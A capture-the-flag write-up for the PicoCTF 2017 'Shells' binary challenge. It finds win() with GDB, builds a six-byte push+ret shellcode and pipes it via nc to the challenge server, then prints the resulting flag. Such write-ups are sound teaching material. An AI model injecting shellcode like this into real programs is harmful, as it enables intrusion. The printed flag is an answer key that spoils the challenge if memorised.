 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:40976.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up
Before we can craft a shellcode, we need to know the address of our `win()` function and loading up GDB is our best shot at it.

    $ gdb shells
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from shells...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x8048540 in a file compiled without debugging.

Simple, now we know `win()` is at `0x8048540`. Let's craft a really simple `push+ret` shellcode.

    0:  68 40 85 04 08          push   0x8048540
    5:  c3                      ret

Put together, this gives us `\x68\x40\x85\x04\x08\xC3`. Let's try it.

    $ python -c "print('\x68\x40\x85\x04\x08\xC3')" | nc shell2017.picoctf.com 40976
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 10 bytes:
    cd875b6ffb5cdd3319532d52ceca71aa

Therefore, the flag is `cd875b6ffb5cdd3319532d52ceca71aa`